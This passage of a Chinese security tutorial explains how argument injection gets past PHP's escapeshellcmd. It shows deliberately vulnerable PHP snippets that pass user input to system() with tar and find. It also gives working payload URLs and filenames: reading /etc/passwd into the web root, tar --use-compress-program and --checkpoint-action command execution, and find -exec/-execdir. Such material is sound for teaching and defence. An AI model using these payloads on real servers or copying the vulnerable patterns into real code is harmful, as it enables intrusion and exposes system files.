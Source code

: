 

## 参数注入

从上面可以看到，参数用了escapeshellcmd过滤之后，已经不可能插入执行第二条命令了。

但是我们通过查看PHP手册，可以看到escapeshellcmd并没有对`-`做转义，所以我们还是可以把参数传到命令中。

比如说`ls`命令 你就可以插进去`-lt`，在一定程度上能更改这条命令的本意。

局限性就是能产生的漏洞极度依赖原命令。

下面就列了一些可以利用来执行命令的参数。

### tar

访问`http://127.0.0.1/?cmd=-cf+/var/www/html/zzz+/etc/passwd`，将`/etc/passwd`压缩到`/var/www/html/zzz`，这样就可以在web目录下下载`zzz`文件，解压后就是`/etc/passwd`。


访问`http://127.0.0.1/?cmd=--use-compress-program%3d%27touch+/tmp/exploit%27+-cf+/tmp/passwd+/etc/passwd`，生成 `/tmp/exploit`，但是要注意的是在不同系统中命令的选项是会有差异的，tar这个参数在ubuntu能利用成功，但是在centos中就利用失败了。

```php
<?php

system("tar ".escapeshellcmd($_GET['cmd']));

?>
```

除了命令执行的方法触发外，还可以使用通配符注入的方式，假设有如下代码：
```php
<?php

system("tar cf backup.gz * ");

?>
```
当可以在目录下生成任意名字的文件时（不能是php等敏感后缀，也不能跨目录），可以生成这两个名字的文件`--checkpoint-action=exec='touch /tmp/test'`、`--checkpoint=1`，在tar进行压缩的时候也会执行对应命令，注意`--checkpoint=1`这个选项是必须的，不加上不会执行。



### find


find命令这个参数应该很多人都知道了，`-exec`，访问`http://127.0.0.1/?cmd=-exec+%27touch+test%27+%3b`。如果有正则`\-exec\W+`这样把`exec`参数过滤了的话，可以用`-execdir`，有一样的效果。

```php
<?php

system("find /tmp -iname ".escapeshellcmd($_GET['cmd']));

?>

```
